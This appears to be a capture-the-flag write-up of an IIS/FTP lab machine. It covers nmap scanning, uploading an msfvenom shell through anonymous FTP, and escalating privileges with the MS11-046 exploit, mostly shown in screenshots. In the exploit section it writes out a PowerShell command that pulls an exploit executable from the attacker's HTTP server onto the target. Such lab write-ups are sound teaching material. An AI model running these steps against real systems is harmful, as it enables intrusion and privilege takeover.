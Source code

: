 # Devel

<h2>Recon</h2>

First lets start with a nmap scan. This will give us some info like open ports.

![scan](https://imgur.com/f2hjZGN.png)

From the nmap scan results we see that port 21 and 80 are open.

- port 21 is used for ftp
    - ftp or file transfer protocol. FTP is used to distribute large files across the web server or to upload files to an online server.

- port 80 is used for Hypertext Transfer Protocol (HTTP)
  - This port is a common one in TCP. It sends and receive requested web page.  



Since port 80 is open lets enter the ip address in the search bar and see what pops up.

![page](https://imgur.com/3EJvO9M.png)



It appears we have some sort of welcome page? At first glance we see IIS7. And if we click the web page we get taken to a microsoft web page that talks about IIS. 

![ms](https://imgur.com/9k3rITd.png)

Next lets take a look at the source code.

![code](https://imgur.com/B7htyOH.png)

Since the site uses IIS we can use this to our advantage. 

<h2>FTP</h2>

From our nmap scan we see that ftp allows Anonymous logins. We use the ftp command in the terminal.

![ftp](https://imgur.com/0Db0sfx.png)

We successfully connected and using `ls` we can see what files.

Using this connection we can put files in the web server.
For example lets put a text file just to test it.

![filetransfer](https://imgur.com/rwQTonr.png)

Now lets call the file from the webpage.

![blah](https://imgur.com/kqDPr0v.png)

Now instead of a txt file lets create a payload using msfvenom. 

![msfvenom](https://imgur.com/p9o3Rg1.png)

And just like the txt file we will put the payload in the server with ftp. And once the we call the file we can see command prompt.

![shell](https://imgur.com/O016Icj.png)

However it seems that access is denied....

![denied](https://imgur.com/O0DqEJu.png)

Seems we need to try some privilege escalation lets take a look at the system information.

![info](https://imgur.com/7syCuit.png)

We see that the OS version is 6.1.7600 N/A Build 7600, using all the information lets look for an exploit. 


<h2>exploit</h2>

After a couple of google searches I found a priv sec exploit.
- [MS11-046](https://www.exploit-db.com/exploits/40564)

> An elevation of privilege vulnerability exists where the AFD
improperly validates input passed from user mode to the kernel. An attacker must have valid logon credentials and be able to log on locally to exploit the vulnerability. An attacker who successfully exploited this vulnerability could
run arbitrary code in kernel mode (i.e. with NT AUTHORITY\SYSTEM privileges).



First we download the MS11-046 from github. 

![github](https://imgur.com/6h6AGpT.png)

Then using powershell and python we can have the target download this exe from our machine.

We will use python http server to send the files and establish a connection. 

```
    powershell -c "(new-object System.Net.WebClient).DownloadFile('http://10.10.14.27:8000/ms11-046.exe', 'c:\Users\Public\Downloads\ms11-046.exe')"

```

This command will download the exe to the target, placing it in the download folder.

![server](https://imgur.com/69K0VDx.png)

Our file was sent successfully!!

Now lets change to the download folder and run our exe.

![exe](https://imgur.com/7tL9VBI.png)

It works now all thats left to find the flags. 

![flags](https://imgur.com/hdcIK29.png)
